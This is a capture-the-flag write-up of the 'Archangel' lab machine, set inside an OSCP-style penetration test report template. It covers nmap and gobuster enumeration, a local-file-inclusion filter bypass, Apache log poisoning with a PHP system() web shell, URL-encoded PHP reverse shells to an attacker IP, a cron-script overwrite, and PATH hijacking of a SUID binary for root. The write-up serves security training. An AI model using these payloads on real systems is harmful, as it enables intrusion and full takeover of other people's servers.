


# Pentesting Report - Archangel

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: variable

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
# Nmap 7.91 scan initiated Fri Feb  5 21:15:19 2021 as: nmap -sC -sV -p- -oA nmap/archangel-fulltcp 10.10.42.162
Nmap scan report for 10.10.42.162
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 21:16:03 2021 -- 1 IP address (1 host up) scanned in 43.16 seconds
```

On browsing the main website we see the following page:


In the source code we find a template is used from https://www.os-templates.com/. A web page featuring a comment posting form is found on /pages/full-width.html, but no action is performed by the POST request.


We find the support email, and we add the mafialive.thm to the /etc/hosts file

Using gobuster we find several webpages and webdirectories:

```
$ gobuster dir -u http://10.10.42.162 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o gobuster/archangel-raft-medium.log
/images (Status: 301)
/pages (Status: 301)
/layout (Status: 301)
/flags (Status: 301)
/server-status (Status: 403)
```

The Flags directory features a clickbait redirecting to a rickroll video on Youtube.


We enumerate the other directories:

```
$ gobuster dir -u http://10.10.42.162/images -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o gobuster/images-raft-medium.log
/demo (Status: 301)
```

```
$ gobuster dir -u http://10.10.42.162/images/demo -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o gobuster/images-demo-raft-medium.log
/gallery (Status: 301)
/backgrounds (Status: 301)
```

Also we enumerate the virtual hosts:

```
$ gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o gobuster/mafialive-raft-files.log 
/index.html (Status: 200)
/.htaccess (Status: 403)
/test.php (Status: 200)
/robots.txt (Status: 200)
/. (Status: 200)
/.html (Status: 403)
/.php (Status: 403)
/.htpasswd (Status: 403)
/.htm (Status: 403)
/.htpasswds (Status: 403)
/.htgroup (Status: 403)
/wp-forum.phps (Status: 403)
/.htaccess.bak (Status: 403)
/.htuser (Status: 403)
/.ht (Status: 403)
/.htc (Status: 403)
```

We also try wavefire.thm:

```
$ gobuster dir -u http://wavefire.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o gobuster/wavefire-raft-files.log
/index.html (Status: 200)
/.htaccess (Status: 403)
/. (Status: 200)
/.html (Status: 403)
/.php (Status: 403)
/.htpasswd (Status: 403)
/.htm (Status: 403)
/.htpasswds (Status: 403)
/licence.txt (Status: 200)
/.htgroup (Status: 403)
/wp-forum.phps (Status: 403)
/.htaccess.bak (Status: 403)
/.htuser (Status: 403)
/.htc (Status: 403)
/.ht (Status: 403)
```

The robots.txt shows us the test.php is forbidden to crawl, so we check it:

```
User-agent: *
Disallow: /test.php
```


Pushing the button shows also the message 'Control is an illusion', and we find an additional web path attached in a GET view parameter:


If we however set the web path to /etc/passwd we get a rejection:


However we are able to use php filter convert to convert the code in base64 and decode it on a command prompt:


```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php

$ echo 'PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==' | base64 -d
<?php echo 'Control is an illusion'; ?>
```

It becomes really interesting when we use this method to check the test.php code:

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

$ echo 'CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw-cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==' | base64 -d > test.php

$ cat test.php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>

</html>
```

In the source code we can see why the request to /etc/passwd was rejected: it rejects when the string '../..' was detected or the string '/var/www/html/development_testing' was missing. We can easily bypass this using '..//..' and appends those after the '/var/www/html/development_testing' string. 


We can also access the web logs, opening the possibility to log poisoning:


We open a terminal and open with nc a connection to port 80 on the webserver of the victim host, and we type:

```
$ nc 10.10.102.133 80
GET /<?php phpinfo(); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 06 Feb 2021 13:04:38 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```



```
$ nc 10.10.102.133 80
GET <?php system($_GET[command]); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 06 Feb 2021 13:08:25 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

By doing this we added a small php script in the log that can be interpreted and we can execute OS commands using the command GET parameter:


Now we can use a reverse shell, encode it to URL encoding and pass it using the command GET parameter:

```
php -r '$sock=fsockopen("10.9.4.36",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

url encoded:

%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%39%2e%34%2e%33%36%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27

http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&command=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%39%2e%34%2e%33%36%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```

We open a NetCat on our host on port 4444 to receive the reverse shell:


```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.102.133] 58974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls -l
total 4
drwxr-xr-x 6 archangel archangel 4096 Nov 20 15:22 archangel
$ cd archangel
$ ls
myfiles
secret
user.txt
$ cat user.txt
thm{xxxxxxxxxxxxx}
```

We open a webserver on port 8000 on our host with a linpeas.sh script on the root directory, and we download linpeas.sh on the victim host:

```
$ python3 -m http.server 8000   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.102.133 - - [06/Feb/2021 14:35:18] "GET /linpeas.sh HTTP/1.1" 200 -
```
We give execute permission to linpeas.sh and execute it:


We find a shell script with suid rights to archangel user:

```
*/1 *   * * *   archangel /opt/helloworld.sh     
```


```
$ cat /opt/helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
$ ls -la /opt
total 16
drwxrwxrwx  3 root      root      4096 Nov 20 10:35 .
drwxr-xr-x 22 root      root      4096 Nov 16 15:39 ..
drwxrwx---  2 archangel archangel 4096 Nov 20 15:04 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20 10:35 helloworld.sh
```

We execute the following commands to replace the script:

```
$ echo '#!/bin/bash' > /opt/helloworld.sh
$ echo "php -r '\$sock=fsockopen(\"10.9.4.36\",4242);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" >> /opt/helloworld.sh
```

then we open a NetCat listening on 4242 waiting to receive a reverse shell:

```
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.102.133] 44904
/bin/sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ ls -l
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18 01:36 myfiles
drwxrwx--- 2 archangel archangel 4096 Nov 19 20:41 secret
-rw-r--r-- 1 archangel archangel   26 Nov 19 19:57 user.txt
$ cd secret
$ ls -al
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20 15:22 ..
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
$ cat user2.txt
thm{xxxxxxxxxxx}
```

We execute again the linpeas.sh script and find another executable with suid rights:

```
$ ls -l /home/archangel/secret/backup
-rwsr-xr-x 1 root root 16904 Nov 18 16:40 /home/archangel/secret/backup
```

Using strings executable we find the hardcoded strings in this file:

```
$ strings backup
/lib64/ld-linux-x86-64.so.2
setuid  
system
__cxa_finalize
setgid  
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH        
[]A\A]A^A_         
cp /home/user/archangel/myfiles/* /opt/backupfiles                            
:*3$"     
GCC: (Ubuntu 10.2.0-13ubuntu1) 10.2.0                                         
/usr/lib/gcc/x86_64-linux-gnu/10/../../../x86_64-linux-gnu/Scrt1.o            
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux       
completed.0    
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
backup.c                                                                      
__FRAME_END__          
__init_array_end                                                              
_DYNAMIC      
__init_array_start                                                            
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

One notable string we find is: cp /home/user/archangel/myfiles/\* /opt/backupfiles
                            
We can exploit the cp command by copying the '/bin/bash' string to a 'cp' file, giving it execute rights and set the PATH variable:

```
$ echo "/bin/bash" > cp 
$ ls -l
total 32
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-rw-r-- 1 archangel archangel    10 Feb  6 20:43 cp
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
-rw-rw-r-- 1 archangel archangel   151 Feb  6 20:26 x.c
$ chmod +x cp
$ ls -l
total 32
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rwxrwxr-x 1 archangel archangel    10 Feb  6 20:43 cp
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
-rw-rw-r-- 1 archangel archangel   151 Feb  6 20:26 x.c
$ export PATH=$PWD:$PATH
$ set
HOME='/home/archangel'
IFS=' 
'
LANG='en_IN'
LOGNAME='archangel'
OLDPWD='/home/archangel'
OPTIND='1'
PATH='/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin'
PPID='15668'
PS1='$ '
PS2='> '
PS4='+ '
PWD='/home/archangel/secret'
SHELL='/bin/sh'
SHLVL='1'
_='est'
```

Now we can execute this backup suid root file to escalate to root and read the root flag:



**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
